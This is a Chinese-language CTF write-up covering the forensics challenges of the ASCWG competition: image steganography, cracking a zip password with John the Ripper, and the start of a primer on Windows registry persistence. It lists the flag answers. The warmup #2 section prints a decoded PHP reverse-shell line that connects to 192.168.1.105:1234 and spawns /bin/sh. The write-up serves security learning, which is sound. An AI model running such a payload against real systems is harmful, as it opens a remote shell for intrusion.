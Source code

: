 ## 4 Forensics

### 4-1 **warmup #1**

![4-1-1](https://laoba-1304292449.cos.ap-chengdu.myqcloud.com/img/20220815152836.png)

```
ASCWG{7b4be24b7e1f4ef01ebb62fce8fe3470857edaf7}
```

### 4-2 **warmup #2**

本关是一道jpg图片隐写的题目。首先仔细观察图片，发现上方存在类似于马赛克的图样，猜测是将flag以某种形式编码(url, base64, ascii或者不同进制下的ascii)后直接写入。查看后发现果然是通过url编码的方式把shell命令写入了图片。根据题目的要求把目标地址的sha1sum的哈希值作为flag上传。

当然出题人的WriteUp是直接使用strings查看图片中的所有字符串，这样也是同样可以的。

![4-2-1](https://laoba-1304292449.cos.ap-chengdu.myqcloud.com/img/20220815152858.png)

url解码后得到： `$sock=fsockopen("192.168.1.105",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

![4-2-2](https://laoba-1304292449.cos.ap-chengdu.myqcloud.com/img/20220815152921.png)

```
ASCWG{cc0e30c2dc233fc58591c987c4eaf751ff25132b}
```

### 4-3 **WeirdFS**

本题目给出的一个img镜像文件。首先通过通过fdisk文件查看该硬盘的格式信息，发现时Apple的APFS格式，因此直接在本机上挂载读入。

![4-3-1](https://laoba-1304292449.cos.ap-chengdu.myqcloud.com/img/20220815152945.png)   

发现了一个有密码的zip文件，其中含有Flag.txt文件。一开始观察zip文件发现其是真加密，并不是考察zip伪加密。所以我们开始打开硬盘下的所有隐藏文件开始寻找zip的密码。但是把所有看似像密码的的字符串尝试后发现都无法打开zip文件。

![4-3-2](https://laoba-1304292449.cos.ap-chengdu.myqcloud.com/img/20220815153005.png)

最后决定爆破zip文件。这里采用的是John the Ripper密码破解工具，词表选择rockyou.txt，很快就爆破出了密码。

![4-3-3](https://laoba-1304292449.cos.ap-chengdu.myqcloud.com/img/20220815153030.png)

![4-3-4](https://laoba-1304292449.cos.ap-chengdu.myqcloud.com/img/20220815153054.png)

```
ASCWG{M4C_4N6_1$_Co0l}
```

### 4-4 **Persistent Ghost [Aha!]**

本题目是关于Windows下通过注册表持久化的题目，比赛时因为对注册表没有过多了解就跳过了。现在拿到Writeup之后转过头来研究一下。

**什么是注册表？**

注册表是Windows操作系统中的一个核心数据库，其中存放着各种参数，直接控制着Windows的启动、硬件驱动程序的装载以及一些Windows应用程序的运行，从而在整个系统中起着核心作用。这些作用包括了软、硬件的相关配置和状态信息，比如注册表中保存有应用程序和资源管理器外壳的初始条件、首选项和卸载数据等，联网计算机的整个系统的设置和各种许可，文件扩展名与应用程序的关联，硬件部件的描述、状态和属性，性能记录和其他底层的系统状态信息，以及其他数据等。
